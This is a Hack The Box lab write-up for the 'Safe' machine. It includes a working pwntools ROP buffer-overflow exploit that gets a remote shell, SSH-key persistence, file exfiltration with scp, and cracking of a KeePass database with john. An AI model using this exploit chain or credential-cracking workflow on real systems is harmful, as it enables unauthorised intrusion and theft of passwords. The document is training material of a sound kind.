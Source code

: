 ```yaml
---
title: Hack The Box Safe Write Up
published: true
---
```

Hey Guys.This is my write up about safe from hack the box.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/safe.png)

It is linux box and rated as easy.It is an oscp like box so let’s get jump in.

As always we start with nmap to scan for open port and services.

# [](#header-3)Enumeration

# [](#header-4)Nmap 
```
root@ch4n:~/Desktop/htb/boxes/safe# nmap -sC -sV 10.10.10.147
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-15 20:08 EST
Nmap scan report for 10.10.10.147
Host is up (0.30s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.46 seconds
```
Here is nmap scan and we got http on port 80 and ssh on port 22.

So nothing was interesting there and let’s go to the web page.

# [](#header-4)Web Page
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/web_page.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/web_page_source.png)

So when I check the web page source,I found that myapp is running on port 1337.

So let’s see port 1337 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/port_1337.png)

In here we got some text.So I downloaded myapp to my machine.And Let’s analyze it.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/checksec_myapp.png)

So in here when we check the file,it is an 64bit binary and NX is enabled but PIE is not..

So let’s disassemble the binary and let’s see how the program works..

I opened it up  in ghidra and check the main function.It is interesting one:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/ghidra.png)

```
undefined8 main(void)

{
  char local_78 [112];
  
  system("/usr/bin/uptime");
  printf("\nWhat do you want me to echo back? ");
  gets(local_78);
  puts(local_78);
  return 0;
}
```
When we look up the code in main function you can see that the system excute usr/bin/uptime and it print What do you want to echo me back?

There are also gets and puts.

# [](#header-3)Exploitation 

I opened myapp with gdb and let’s calculate the offset:-)

I created the pattern and then run and put the pattern then program was crashed:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/pattern_offset%201.png)

 we can calculate the offset.It is 120.Then I create the pattern with 112 and added 8 bytes of b at the end.
 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/pattern_offset2.png)

In here we  can see that rbp register contains bbbbbbbb and it shows that This  offset  can control RIP with 120 bytes + 8 bytes:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/rbp_registers.png)

# [](#header-4)Writing Exploit 
I can’t  put the shellcode on the stack because NX is enabled so the stack isn’t executable. 

we can use the system function cause PIE is not enable so the address for system doesn't change

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/grep%20pop.png)

I used ropper -f myapp to find rop gadgets
```
0x0000000000401206: pop r13; pop r14; pop r15; ret; 
```
So we will use this one:-)
# [](#header-4)Exploit
```
from pwn import*

p = remote("10.10.10.147" , 1337)
context(os="linux", arch="amd64")

JUNK  = "A"* 112
sh = "/bin/sh\x00"
system = p64(0x401040)
test = p64(0x401152)
r13 = p64(0x401206)

payload = JUNK + sh + r13 + system + "BBBBBBBB" + "CCCCCCCC" + test

p.recvline()
p.sendline(payload)
p.interactive()
```
After running this code we got the shell as user so this shell is not fully interactive so I added our ssh key to authorized_keys 

Then connect with sssh
```
user@safe:~$ ls -la
total 11284
drwxr-xr-x 3 user user    4096 May 13  2019 .
drwxr-xr-x 3 root root    4096 May 13  2019 ..
lrwxrwxrwx 1 user user       9 May 13  2019 .bash_history -> /dev/null
-rw-r--r-- 1 user user     220 May 13  2019 .bash_logout
-rw-r--r-- 1 user user    3526 May 13  2019 .bashrc
-rw-r--r-- 1 user user 1907614 May 13  2019 IMG_0545.JPG
-rw-r--r-- 1 user user 1916770 May 13  2019 IMG_0546.JPG
-rw-r--r-- 1 user user 2529361 May 13  2019 IMG_0547.JPG
-rw-r--r-- 1 user user 2926644 May 13  2019 IMG_0548.JPG
-rw-r--r-- 1 user user 1125421 May 13  2019 IMG_0552.JPG
-rw-r--r-- 1 user user 1085878 May 13  2019 IMG_0553.JPG
-rwxr-xr-x 1 user user   16592 May 13  2019 myapp
-rw-r--r-- 1 user user    2446 May 13  2019 MyPasswords.kdbx
-rw-r--r-- 1 user user     675 May 13  2019 .profile
drwx------ 2 user user    4096 Jan 15 10:32 .ssh
-rw------- 1 user user      33 May 13  2019 user.txt
```
 In user directory,there are images and interesting files called MyPasswords.kdbx 

```
scp -i safe user@10.10.10.147:* .
```
After downloading all files,I made a simple bash line:-)

```
root@ch4n:~/Desktop/htb/boxes/safe# keepass2john MyPasswords.kdbx > hash;for i in *.JPG;do keepass2john -k $i MyPasswords.kdbx; done >> hash
```

```
root@ch4n:~/Desktop/htb/boxes/safe# cat hash
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*17c3509ccfb3f9bf864fca0bfaa9ab137c7fca4729ceed90907899eb50dd88ae
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*a22ce4289b755aaebc6d4f1b49f2430abb6163e942ecdd10a4575aefe984d162
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*e949722c426b3604b5f2c9c2068c46540a5a2a1c557e66766bab5881f36d93c7
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*d86a22408dcbba156ca37e6883030b1a2699f0da5879c82e422c12e78356390f
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*facad4962e8f4cb2718c1ff290b5026b7a038ec6de739ee8a8a2dd929c376794
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*7c83badcfe0cd581613699bb4254d3ad06a1a517e2e81c7a7ff4493a5f881cf2
```
I used john to crack the pass

```
root@ch4n:~/Desktop/htb/boxes/safe# john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-30.txt hash
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (KeePass [SHA256 AES 32/64])
Remaining 6 password hashes with 6 different salts
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bullshit         (MyPasswords)
```
So here we grab the pass as bullshit

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/kpcli_pass.png)

here we got the root password and grab the root flag

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/root.png)

That's it guys.

Enjoy my write up
